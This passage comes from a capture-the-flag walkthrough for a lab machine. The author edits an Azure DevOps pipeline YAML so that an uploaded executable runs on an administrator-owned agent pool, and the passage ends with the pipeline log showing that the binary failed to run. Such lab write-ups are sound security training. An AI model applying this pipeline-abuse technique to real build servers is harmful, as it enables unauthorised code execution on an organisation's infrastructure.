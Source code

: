Now modify the template pipelien to

```yaml
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

trigger:
- master

pool: 'Default'

steps:
- script: C:\Users\robisl\Downloads\noraj.exe
  displayName: 'noraj'
```

Then save and run to a new branch and PR to master.

When the pipeline ran I got an error:

```
The pipeline is not valid. Could not find a pool with name Default. The pool does not exist or has not been authorized for use.
```

Going to http://devops.worker.htb/ekenas/PartsUnlimited/_settings/agentqueues
I was there was an Agent pool named `Setup` that was owner by the administrator.

So I changed my template to the following and created a new pipeline:

```yaml
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

trigger:
- master

pool: 'Setup'

steps:
- script: C:\Users\robisl\Downloads\noraj.exe
  displayName: 'noraj'
```

Here is the execution of the pipeline task "noraj":

```
##[section]Starting: noraj
==============================================================================
Task         : Command line
Description  : Run a command line script using Bash on Linux and macOS and cmd.exe on Windows
Version      : 2.151.1
Author       : Microsoft Corporation
Help         : https://docs.microsoft.com/azure/devops/pipelines/tasks/utility/command-line
==============================================================================
Generating script.
Script contents:
C:\Users\robisl\Downloads\noraj.exe
========================== Starting Command Output ===========================
##[command]"C:\Windows\system32\cmd.exe" /D /E:ON /V:OFF /S /C "CALL "w:\agents\agent11\_work\_temp\31fb30ee-8d29-41e3-9ab0-529b331cef0e.cmd""
##[error]This version of C:\Users\robisl\Downloads\noraj.exe is not compatible with the version of Windows you're running. Check your computer's system information and then contact the software publisher.
##[error]Cmd.exe exited with code '1'.
```